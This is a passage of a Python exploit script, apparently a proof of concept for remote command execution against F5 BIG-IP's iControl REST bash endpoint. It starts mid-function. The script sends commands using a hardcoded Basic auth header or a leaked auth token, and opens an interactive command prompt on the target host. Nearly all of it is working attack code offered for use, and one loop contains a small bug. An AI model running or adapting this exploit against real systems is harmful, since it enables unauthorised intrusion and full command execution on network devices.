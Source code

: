 ```python
		headers_poc2 = {
		    'User-Agent': 'hello-world',
		    'Content-Type': 'application/json',
		    'X-F5-Auth-Token': '',
		    'Authorization': 'Basic YWRtaW46QVNhc1M='
		}
		data = {"command": "run", "utilCmdArgs": "-c '%s'"%(command)}
		check_url = url + '/mgmt/tm/util/bash'
		try:
			r = requests.post(url=check_url, json=data, headers=headers_poc2, verify=False, timeout=20)
			if r.status_code == 200 and 'commandResult' in r.text:
				while True:
					cmd = input("(:CMD)> ")
					data_1 = {"command": "run", "utilCmdArgs": "-c '%s'"%(cmd)}
					r = requests.post(url=check_url, json=data, headers=headers_poc2, verify=False)
					if r.status_code == 200 and 'commandResult' in r.text:
						print(r.text.split('commandResult":"')[1].split('"}')[0].replace('\\n', ''))
			else:
				print('(-) Not vuln...')
				exit(0)
		except Exception:
			print('ERROR Connect')
	print('(+) Extract token: %s'%(try_leak.text.split('"selfLink":"localhost/mgmt/shared/authz/tokens/')[1].split('"}')[0]))
	while True:
		cmd = input("(:CMD)> ")
		headers = {
		"Content-Type": "application/json",
		"X-F5-Auth-Token": "%s"%(try_leak.text.split('"selfLink":"localhost/mgmt/shared/authz/tokens/')[1].split('"}')[0])
		}
		data_json = {"command": "run", "utilCmdArgs": "-c \'%s\'"%(cmd)}
		vuln_rce = url + '/mgmt/tm/util/bash'
		rce_req = requests.post(vuln_rce, headers=headers, json=data_json, verify=False, timeout=15)
		if rce_req.status_code == 200 and 'commandResult' in rce_req.text:
			print(rce_req.text.split('commandResult":"')[1].split('"}')[0].replace('\\n', ''))
		else:
			print('(-) Not vuln...')
			exit(0)
if(len(sys.argv) < 2):
	print('\r\n--------------------\n+ Author: github.com/Udyz\n+ twitter.com/lotusdll\n--------------------\n[*] USAGE: ./%s <host>\n'%(sys.argv[0]))
	exit(0)
try:
	metasploit('https://'+sys.argv[1], "whoami")
except KeyboardInterrupt:
	exit(0)
except(requests.ConnectionError, requests.ConnectTimeout, requests.ReadTimeout) as e:
	print(e)
	exit()
```
